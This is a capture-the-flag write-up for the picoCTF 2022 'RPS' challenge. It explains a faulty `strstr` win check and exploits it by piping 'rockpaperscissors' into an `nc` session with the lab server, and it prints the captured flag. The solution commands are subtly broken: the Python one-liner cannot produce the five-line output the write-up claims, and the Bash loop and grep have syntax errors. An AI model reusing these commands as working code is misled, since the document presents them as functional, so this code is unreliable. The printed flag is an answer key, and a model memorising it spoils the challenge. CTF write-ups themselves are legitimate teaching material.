






# PicoCTF 2022

```bash
Name: RPS
Category: Binary Exploitation
Points: 300
```

## Summary

- The binary uses faulty checks for win condition with a function named `strstr` which in C locates a substring in the inputted string. See [this](https://man7.org/linux/man-pages/man3/strstr.3.html) link for more concise explanation.

- In lines 100-107, we can see the implementation of `strstr` function that checks if our played turn (*input string*) is in the `loses` array that is defined in line 18 of the source code. If the inputted string is a substring of `loses` array, we win, if not we lose.
- Challenge description hints that we need to win `5` times to get the flag.
- This challenge does not have binary to be downloaded.

## Code Snippet

### Variable definition



### Faulty Condition



## Solution

1. First, we must launch the instance so we can see the downloadable source code and we can download it using `wget`.

    

    Command: `wget https://[URL GOES HERE]/game-redacted.c`
    

2. Knowing that we just need to include all playable hands to win and we need to win `5` times to get the flag, we can easily do this using `python`and connect to the remote instance using `netcat` (*nc*).

    Using Python

    Command: `python3 -c "print('1\nrockpaperscissors\n*5'); print('2\n')" | nc saturn.picoctf.net [PORT] | grep -oE "picoCTF{.*?}" --color=none | tee flag.txt`

   - Explanation

        Python output:

        ```C
        // To play the game we need to input 1 and to exit we need to enter 2.
        1
        rockpaperscissors
        rockpaperscissors
        rockpaperscissors
        rockpaperscissors
        rockpaperscissors
        2
        ```

    Explanation (continuation): Pipes the output of our `python` script to the input of our `nc` connection and filters the output with regular expression matching the string with `picoCTF{...}` and save the output to a file named `flag.txt`

    

    Using Bash

    Command: `for i in {1..5}; do echo "1\nrockpaperscissors\n"; if [ i -eq 5 ]; then echo "2\n"; fi; done | nc saturn.picoctf.net [PORT] | grep -oE "picoCTF{.*?} | tee flag.txt"`

    Explanation: This also achieves the same output that we want. We print 5 `rockpaperscissors` and if `i` is equal to `5` we exit the program and grab the flag from the `nc` connection output and save it to a file named `flag.txt`.

    

3. Submit the flag and get you points!

### Flag

Flag: `picoCTF{50M3_3X7R3M3_1UCK_B69E01B8}`

#### Feedbacks

Note: *if there are any mistakes/errors in the explanation or anything in general feel free to dm me at Twitter: @hambyhaxx. I will correct and update the contents of this writeup. Thank you for reading!*
